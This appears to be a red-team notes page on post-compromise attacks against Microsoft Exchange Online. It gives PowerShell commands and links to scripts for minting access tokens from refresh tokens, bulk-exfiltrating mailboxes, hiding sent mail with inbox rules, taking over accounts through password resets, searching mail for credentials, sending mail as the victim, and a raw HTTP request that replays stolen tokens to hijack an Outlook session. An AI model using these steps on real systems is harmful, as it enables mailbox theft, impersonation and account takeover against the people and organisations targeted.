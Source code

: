 ```yaml
---
title: Exchange Online
---
```


> Under construction 🚧

Obtain an access token for MS Graph with [[notes/tools/tokentactics]].

~~~ powershell
RefreshTo-MSGraphToken -domain corp.com
echo $MSGraphToken.access_token
~~~

Download emails with [exfil_exchange_mail.py](https://github.com/rootsecdev/Azure-Red-Team/blob/master/Tokens/exfil_exchange_mail.py).

~~~ bash
python3 ./exfil_exchange_mail.py
~~~

Create an inbox rule to hide emails send as attacker.

Take over other services via "Password Forgotten".

Search for credentials in emails with [TeamFiltration](https://github.com/Flangvik/TeamFiltration).

Send an email via Exchange Online ([source](https://twitter.com/424f424f/status/1609552182390538245/)) with [[notes/tools/tokentactics]] and [MailSniper](https://github.com/dafthack/mailsniper).

~~~ powershell
Send-EWSEmail -ExchHostname substrate.office.com -Recipient jdoe@corp.com -Subject test -EmailBody 'Hello!' -AccessToken $token
~~~

MailSniper can be used as *Exchange Administrator* to read emails of all users.

To get an Outlook browser session obtain an access token for Outlook with [[notes/tools/tokentactics]].

~~~ powershell
RefreshTo-OutlookToken -domain corp.com
echo $OutlookToken.refresh_token
echo $OutlookToken.access_token
~~~

The open Burp, send the following request to [outlook.office.com](https://outlook.office.com) and open the response in your browser.

~~~ http
POST /owa/ HTTP/2
Host: outlook.office.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2703
Referer: https://login.microsoftonline.com/
Origin: https://login.microsoftonline.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

code=REFRESH_TOKEN&id_token=ACCESS_TOKEN
~~~

Untested tools:

- [MsGraphFunzy](https://github.com/Mr-Un1k0d3r/MsGraphFunzy), download emails and attachments trough Microsoft Graph
- [Token Farm](https://github.com/rootsecdev/Azure-Red-Team/tree/master/Tokens), python scripts to access Outlook emails and OneDrive
